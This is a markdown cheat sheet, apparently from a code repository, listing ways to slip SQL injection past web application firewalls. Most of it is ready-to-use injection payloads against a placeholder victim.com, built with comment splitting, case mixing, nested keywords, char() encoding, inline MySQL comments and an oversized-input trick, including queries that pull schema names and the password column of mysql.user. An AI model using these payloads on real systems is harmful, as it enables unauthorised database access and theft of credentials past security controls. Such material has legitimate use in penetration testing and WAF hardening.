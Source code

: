 <h1 align="center">WAF bypass Technique</h1>	

# Bypassing Methods and Techniques

#### 1. Pre-processor exploitation
- Make WAF skip input validation
#### 2. Impedance Mismatch
- WAF interpret input differently 
#### 3. Rule set Bypassing
- Use Payload that are not detected by WAF



# General step in WAF bypass

1. Fingerprint WAF and examine the filter rules
2. Encrypt the payload 
3. Test payload and examine the response 
4. If the payload cannot bypass WAF, use another payload and repeat from step 2






<h1 align="center">SQL injection WAF bypass</h1>


# Normal Bypassing Technique


## Bypass with Comment

- SQL comments allow to bypass a lot of filtering and WAF

`http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--`



## Case Changing

Some WAF filter only lowercase SQL keyword

Regex Filter ==> ` /union\sselect/g`

`http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--`



## Replaced Keyword

- Some application and WAFs use preg_replace to remove all SQL keyword. So we can bypass 

`http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--`

- Some case SQL keyword was filtered out and replaced with whitespace. So we can use `%0b` to
bypass.

`http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--`



## Adding or Removing White Space

- Adding or Removing space won't affect the SQL statement

- We can bypass WAF by adding or removing white space

#### Blocked Query
`' or 1 = 1'`

#### By pass statement
`'or '1'='1'`



## Character Encoding

- Many DBMS have different SQL syntax, most of them support Unicode, Base64, hex, octal, binary

- Many `blacklisted characters` can be replaced by their functional alternatives 


- Most CMSs and WAFs will decode and filter/bypass an application input, but some WAFs only `decode the input once` so `double encoding` can bypass certain filters as the WAF will decode the input once then filter while application keep decoding the SQL statement executing

#### Normal Query

`' UNION SELECT table_schema, table_name FROM information_Schema.tables where table_schema = "dvwa" -- -`

#### Bypass Query

``' UNION SELECT table_schema, table_name FROM information_Schema.tables where table_schema = char(100,118,119,97) -- -``

- we replaced the “dvwa” with char(100,118,119,97) which is the MySQL char() function
that uses ASCII codes inside and we use it to inject into MySQL without using double quotes that many times gets filtered by WAFs. Char() also works on almost all other databases but sometimes it can only hold one character at a time, like for example char(0x##)+char(0x##)+...So if the one way does not work for us, we have to try another.



## Keyword Replacing

- Many times keywords themselves are blocked from the WAF. An encode way to bypass this filter is by replacing the keywords we use with others, so once the WAF strips the keyword, our desired keyword will remain

`' union selselectect password from mySQL.user limit 1 /*`

- WAF is blocking the select keyword.
- Once the query passes and gets filtered, the middle select keyword
- `sel` from the start and `ect` from the end will get merged and form a new select keyword that will get executed in the server.

## string Concatenation

- Break up SQL keyword and bypass WAF filter rules
- Concatenation syntax varies based on the database.

`EXEC ('SEL' + 'ECT 1'`



## Buffer Overflow

-WAFs that written in the C language prone to overflow or act differently when loaded with a bunch of
data. Give a large amount of data allows our code executing

```
http://victim.com/news.php?id=1+and+(select 1)=(select
0x414141414141441414141414114141414141414141414141414141414141414141+union+select+1,2,version(),database(),user(),6,7,8,9,10--

```

## Inline Comments (MySQL Only)


-  MySQL Server supports some variants of C-style comments.
These enable you to write code that includes MySQL extensions, but is still portable, by using
comments of the following form: 

`/*! MySQL-specific code */`

- A lot of WAFs filter SQL keywords like /union\sselect\ig We can bypass this filter by using inline
comments.

`http://victim.com/news.php?id=1/*!UnIoN*/SeLecT+1,2,3--`

- Inline comments can be used throughout the SQL statement so if table_name or information_schema
are filtered we can add more inline comments

`http://victim.com/news.php?id=/*!UnIoN*/+/*!SeLecT*/+1,2,concat(/*!table_name*/)
+FrOm/*!information_schema*/.tables/*!WhErE*/+/*!TaBlE_sChEMa*/+like+database()--`


